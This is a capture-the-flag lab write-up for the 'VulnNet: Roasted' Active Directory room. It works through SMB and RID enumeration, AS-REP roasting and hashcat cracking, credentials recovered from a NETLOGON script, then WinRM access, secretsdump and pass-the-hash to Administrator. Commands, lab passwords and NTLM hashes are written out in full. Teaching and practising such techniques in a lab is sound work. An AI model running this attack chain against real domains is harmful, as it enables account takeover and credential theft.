<div align="center">


# VulnNet: Roasted

**Difficulty:** Easy
**Category:** AD / Kerberos

</div>

---


```bash
nmap -sV -sC 10.80.179.138 -oN roasted-nmap.txt
```

```bash
smbclient -L //10.80.179.138/
```



I am guessing we will have access to the two`Anonymous` disks.

I retrieve everything from these disks:



I find the users:
* Jack Goldenhand
* Tony Skid
* Johnny Leet

I try to create a wordlist with these usernames in various combinations.

* Jack Goldenhand
* jack.goldenhand
* jackgoldenhand
* jgoldenhand
* jackg
* And so on...

```bash
enum4linux 10.80.179.138
```

Domain name: VULNNET-RST

nothing more..

```bash
crackmapexec smb 10.80.179.138 -u 'guest' -p '' --shares
```



User `guest` has READ perms for `IPC$`.

* `IPC$` is also known as a **null session connection**. `IPC$` does **not provide access to files or directories**; instead, it allows communication through **named pipes** and other mechanisms.

```bash
impacket-lookupsid anonymous@10.80.173.138 -no-pass
# or
impacket-lookupsid guest@10.80.173.138 -no-pass
```



We get the `sid`'s (`Security Identifiers`) which are unique, immutable values assigned to every security principal - sucha as a **user account, group**, or **computer account**.

This means we can also do:

```bash
crackmapexec smb 10.80.179.138 -u 'anonymous' -p '' --rid-brute
# or
crackmapexec smb 10.80.179.138 -u 'guest' -p '' --rid-brute
```



These are `rid`'s (`Relative Identifiers`) which are part of the **Security Identifier**, here they are the same. The `SID` is composed of several parts, and the `RID` is the last part of that identifier.

Now we have the **users**, **groups** and **aliases**:

Users:
* Administrator
* Guest
* krbtgt
* WIN-2BO8M1OE1M1$
* enterprise-core-vn
* a-whitehat
* t-skid
* j-goldenhand
* j-leet

We add these into a `valid_users.txt`.

```bash
impacket-GetNPUsers -dc-ip 10.80.179.138 -usersfile valid_users.txt VULNNET-RST.local/ -no-pass
```



We get a hash for the user `t-skid`. Nice!

Since this is a `$krb5asrep$23$` hash we use the mode `18200` to crack it. 

```bash
hashcat -m 18200 toni-skid.hash rockyou.txt
```

tj072889*

```bash
crackmapexec smb 10.80.179.138 -u 't-skid' -p 'tj072889*' --shares
```



`t-skid` has read access to the shares `NETLOGON` and `SYSVOL`.

```bash
smbclient //10.80.179.138/NETLOGON -U 't-skidt%j072889*'
```

We find a file `ResetPassword.vbs`.

A VBS file is a script written in the VBScript scripting language, developed by Microsoft. Used to automate tasks and perform certain functions within Windows or Internet Explorer.

In it we find these rows:
```vbs
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```

```bash
crackmapexec smb 10.80.179.138 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht' --shares
```



This user is an Admin!

```bash
crackmapexec winrm 10.80.179.138 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht'
```



**(Pwn3d!)** 

Hell yeah!

```bash
evil-winrm -u 'a-whitehat' -p 'bNdKVkjv3RR9ht' -i 10.80.179.138
```

```powershell
whoami /groups
```



Administrators.

```powershell
type C:\Users\enterprise-core-vn\Desktop\user.txt
THM{<REDACTED>}
```

We should be able to just use psexec to get an admin shell right away:

```bash
impacket-psexec vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.80.179.138
```

But I get stuck at  this part:



I'll just do a secretsdump instead:

```bash
impacket-secretsdump vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.80.179.138
```

```
[*] Dumping local SAM hashes:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

These are the local accounts for this machine, the administrator is the **local Administrator**.

```bash
evil-winrm -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d -i 10.80.179.138
```

```powershell
type C:\Users\Administrator\Desktop\system.txt
THM{<REDACTED>}
```